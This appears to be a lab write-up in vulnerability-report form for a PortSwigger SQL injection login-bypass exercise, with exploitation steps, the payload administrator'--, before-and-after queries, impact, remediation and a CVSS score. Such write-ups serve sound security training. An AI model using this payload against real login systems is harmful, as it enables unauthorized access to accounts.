


# SQL Injection Vulnerability Allowing Login Bypass

## Description

The application is vulnerable to SQL Injection in the login functionality. User-supplied credentials are incorporated directly into a backend SQL query without proper input validation or parameterization.

When a user attempts to log in, the application executes a query similar to:

```sql
SELECT * FROM users
WHERE username = 'administrator'
AND password = 'password';
```

By injecting SQL syntax into the username field, an attacker can manipulate the query logic and bypass authentication without knowing valid credentials.

This vulnerability allows unauthorized access to user accounts and can potentially lead to complete compromise of the application.

---

## Steps to Exploit

1. Open the login page.
2. Enter the following payload into the username field:

```sql
administrator'--
```

3. Enter any value in the password field.

Example:

```text
Password123
```

4. Submit the login form.
5. Observe that authentication is bypassed and the application logs in as the administrator user.

---

## Proof of Concept

### Payload

```sql
administrator'--
```

### Original Query

```sql
SELECT * FROM users
WHERE username = 'administrator'
AND password = 'password';
```

### Modified Query

```sql
SELECT * FROM users
WHERE username = 'administrator'--'
AND password = 'password';
```

### Explanation

The double dash (`--`) starts a SQL comment.

Everything following the comment marker is ignored by the database engine.

As a result, the password verification condition is removed, and the query effectively becomes:

```sql
SELECT * FROM users
WHERE username = 'administrator';
```

Since the administrator account exists, authentication succeeds without requiring the correct password.

---

## Screenshots

### Screenshot 1 - Login Request with SQL Injection Payload

**Purpose:** Demonstrates successful authentication bypass using SQL Injection.

**Take Screenshot When:**

* Burp Suite intercepts the login request.
* The username parameter contains:

```sql
administrator'--
```

* The request is visible before forwarding.

**Insert Screenshot Below**



---

### Screenshot 2 - Administrator Dashboard / Lab Solved

**Purpose:** Demonstrates successful login as the administrator account.

**Take Screenshot When:**

* The application displays the administrator account page.
* OR the PortSwigger lab displays:

```text
Congratulations, you solved the lab!
```

**Insert Screenshot Below**



---

## Impact

* Complete authentication bypass.
* Unauthorized access to privileged accounts.
* Potential administrative account compromise.
* Exposure of sensitive user information.
* Full application takeover if administrative privileges are obtained.

---

## Mitigation / Remediation

1. Use parameterized queries (prepared statements).
2. Never concatenate user input directly into SQL queries.
3. Implement server-side input validation.
4. Apply the principle of least privilege to database accounts.
5. Use secure authentication frameworks and ORM protections.
6. Conduct regular penetration testing and code reviews.

---

## CVSS Score

**CVSS v3.1 Score:** 9.1 (Critical)

### Vector

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L
```

---

## CVSS Justification

### Attack Vector

Network (N) – Exploitable remotely through HTTP requests.

### Attack Complexity

Low (L) – No special conditions are required.

### Privileges Required

None (N) – The attacker does not require authentication.

### User Interaction

None (N) – No victim interaction is required.

### Scope

Unchanged (U) – Impact remains within the vulnerable application.

### Confidentiality Impact

High (H) – Unauthorized access to sensitive account information.

### Integrity Impact

High (H) – Administrative actions can be performed.

### Availability Impact

Low (L) – Administrative access may indirectly affect application availability.

---

## References

* OWASP SQL Injection Prevention Cheat Sheet
* PortSwigger Web Security Academy - SQL Injection Vulnerability Allowing Login Bypass
